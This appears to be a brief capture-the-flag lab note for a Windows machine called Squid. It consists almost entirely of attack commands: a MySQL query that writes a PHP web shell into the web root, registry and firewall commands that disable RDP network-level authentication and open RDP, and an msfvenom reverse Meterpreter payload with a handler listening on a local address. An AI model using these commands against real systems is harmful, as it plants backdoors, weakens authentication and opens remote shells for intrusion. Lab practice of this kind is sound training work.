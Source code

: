 Title : Squid Machine
Date  : 2024-05-19 19:10 
Category : HTB
Slug : squid


# SQUID - MACHINE / PG
#PG/easy_windows

This machine a proxy named squid that proxy all network traffic from outside . It operate on port 3128


#### Mysql 3306:

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

#### Disable NLA;
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f
```

#### Enable RDP on owned machine:
```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

```

```shell
netsh advfirewall firewall set rule group="remote desktop" new enable=yes

```
 
#### Reverse Shell with Meterpreter:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.17 LPORT=4444 --format=exe > evil.exe

```

```shell
msf5> use exploit/multi/handler
msf5> set payload windows/meterpreter/reverse_tcp
msf5> set LHOST 192.168.0.17
msf5> set LPORT 4444
msf5> run
```
